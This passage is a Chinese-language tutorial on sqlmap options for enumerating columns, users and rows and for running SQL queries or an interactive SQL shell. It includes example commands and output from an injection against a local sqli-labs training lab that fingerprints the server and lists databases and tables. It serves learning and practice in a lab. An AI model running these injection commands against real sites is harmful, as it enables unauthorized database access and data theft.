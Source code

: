-X EXCLUDECOL       DBMS database table column(s) to not enumerate</br>
	指定不枚举那个列</br>
-U USER             DBMS user to enumerate</br>
	枚举用户，但单独用这个参数感觉没什么用啊，这个可能要看源码才能解决了，估计要配合其他参数</br>
--exclude-sysdbs    Exclude DBMS system databases when enumerating tables</br>
	枚举时排除系统的数据库</br>
--pivot-column=P..  Pivot column name</br>
	以某一列为核心？这个用过没感觉出什么用</br>
--where=DUMPWHERE   Use WHERE condition while table dumping</br>
	使用where调试限制table的输出</br>
--start=LIMITSTART  First query output entry to retrieve</br>
	指定开始从第几行开始输出，如--start=3，前两行就不输出了</br>
--stop=LIMITSTOP    Last query output entry to retrieve</br>
	指定从第几行开始停止输出</br>
--first=FIRSTCHAR   First query output word character to retrieve</br>
	指定只输出第几个字符开始输出，盲注才有效，亲测</br>
--last=LASTCHAR     Last query output word character to retrieve</br>
	指定只输出第几个字符停止输出，盲注才有效，亲测，跟上面的配合指定范围，</br>
	如 ：--first 3 --last 5  只输出3到5位置的字符</br>
--sql-query=QUERY   SQL statement to be executed</br>
	指定执行我们的sql语句</br>
--sql-shell         Prompt for an interactive SQL shell</br>
	返回一个sql的shell</br>
--sql-file=SQLFILE  Execute SQL statements from given file(s)</br>
	从文件中读取执行sql语句</br>

## 二.实例
	1.sqlmap -u "http://127.0.0.1:80/sqli-labs/Less-1/?id=1" -b --is-dba --dbs
	查看指纹信息/是否dba(root权限)/数据库
	web server operating system: Linux Ubuntu
	web application technology: Apache 2.4.18
	back-end DBMS operating system: Linux Ubuntu
	back-end DBMS: MySQL 5.0
	banner:    '5.7.23-0ubuntu0.16.04.1'

	current user is DBA:    True

	available databases [6]:
	[*] challenges
	[*] information_schema
	[*] mysql
	[*] performance_schema
	[*] security
	[*] sys

	2.查看security下表名
	 sqlmap -u "http://127.0.0.1:80/sqli-labs/Less-1/?id=1" -D security --tables
	Database: security
	[4 tables]
	+----------+
	| emails   |
	| referers |
	| uagents  |
	| users    |
	+----------+
